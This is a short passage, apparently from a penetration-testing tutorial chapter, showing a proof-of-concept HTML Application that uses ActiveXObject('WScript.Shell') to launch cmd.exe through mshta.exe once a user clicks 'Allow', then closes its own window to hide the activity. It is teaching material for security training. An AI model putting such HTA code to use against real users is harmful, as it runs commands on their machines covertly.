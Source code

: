 ![](./img/Chapter13/7.png)

When the user clicks 'Allow', the `cmd.exe` is launched

![](./img/Chapter13/8.png)

While mshta.exe is executing, it keeps an additional window open behind our command prompt. To avoid this, we can update our proof-of-concept to close this window with the `.close();` object method:

```html
<html>
<head>
<script>
    var c= 'cmd.exe'
    new ActiveXObject('WScript.Shell').Run(c);
</script>
</head>
<body>
<script>
    self.close();
</script>
</body>
```
